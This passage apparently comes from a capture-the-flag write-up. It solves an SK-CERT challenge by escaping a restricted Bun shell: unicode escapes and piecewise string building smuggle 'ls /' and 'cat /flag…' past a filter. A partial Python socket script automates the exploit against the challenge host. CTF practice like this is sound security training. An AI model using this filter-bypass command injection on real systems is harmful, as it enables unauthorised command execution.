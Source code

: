 ```
srv
proc
tmp
boot
var
dev
opt
mnt
media
sys
app
flag123615.txt

tasty-bun> $1=`ca`
ca
tasty-bun> $1+=`t`
cat
tasty-bun> $2=`\u002f`
/
tasty-bun> $2+=`fl`
/fl
tasty-bun> $2+=`ag`
/flag
tasty-bun> $2+=`123615.txt`
/flag123615.txt
tasty-bun> $666`${$1} ${$2}`.\u0074\u0065\u0078\u0074``
SK-CERT{\u0074\u0068\u0069\u0073\u0020\u0069\u0073\u0020\u0066\u0075\u006E}
```



AllInOne skript

```python
import socket
import re

HOST = 'exp.cybergame.sk'
PORT = 7012

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect((HOST, PORT))

    def recv_until(prompt=b'tasty-bun> '):
        data = b''
        while prompt not in data:
            data += s.recv(1024)
        return data

    def send(cmd):
        s.sendall(cmd.encode() + b'\n')
        return recv_until()

    recv_until()

    # Execute directory listing
    send("$666=\\u0042\\u0075\\u006e.$")
    send("$1=`ls`")
    send("$2=`\\u002f`")

    response = send("$666`${$1} ${$2}`.\\u0074\\u0065\\u0078\\u0074``").decode()

    # Find the flag file dynamically
    match = re.search(r'(flag\d+\.txt)', response)
    if not match:
```